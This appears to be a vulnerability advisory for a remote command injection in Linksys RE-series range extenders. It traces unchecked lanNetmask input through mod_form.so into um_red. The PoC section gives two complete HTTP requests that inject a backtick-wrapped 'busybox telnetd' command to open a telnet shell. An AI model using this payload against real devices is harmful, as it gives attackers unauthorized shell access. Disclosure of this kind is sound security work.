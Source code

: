 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `setDFSSetting` function, `lanNetmask、lanIp` is directly passed by the attacker, so we can control the `staticIp、lanNetmask、lanIp` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

In `setDFSSetting` function.

`mod_form.so->internet.sh->um_red`

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

In `um_red` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

Vulnerability trigger steps:

* set `lanNetmask`=**255.255.255.0`busybox telnetd`**, in (`setLan`)
* Trigger the vulnerability, in (`setDFSSetting`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `lanNetmask` as **255.255.255.0`busybox telnetd`** , and the router will excute it,such as:

```http
POST /goform/setLan HTTP/1.1
Host: 192.168.1.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1320
Origin: http://192.168.1.12
Connection: close
Referer: http://192.168.1.12/wireless/wireless_basic.shtml
Cookie: session_id=zgvNXSgIwwGhiS5kNKaXqABueSEcgStd
Upgrade-Insecure-Requests: 1

lanIp=192.168.1.1&lanNetmask=255.255.255.0`busybox telnetd`&lan2enabled=&lan2Ip=&lan2Netmask=&lanDhcpType=&stpEnbl=&lltdEnbl=&igmpEnbl=&upnpEnbl=&pppoeREnbl=&dnspEnbl=&dhcpStart=&dhcpEnd=&dhcpMask=&dhcpGateway=&dhcpLease=&dhcpStatic1=&dhcpStatic=&dhcpStatic3=
```

Trigger the vulnerability, in (`setDFSSetting`)

```http
POST /goform/setDFSSetting HTTP/1.1
Host: 192.168.1.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1320
Origin: http://192.168.1.12
Connection: close
Referer: http://192.168.1.12/wireless/wireless_basic.shtml
Cookie: session_id=zgvNXSgIwwGhiS5kNKaXqABueSEcgStd
Upgrade-Insecure-Requests: 1

dfsSwitch=
```



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

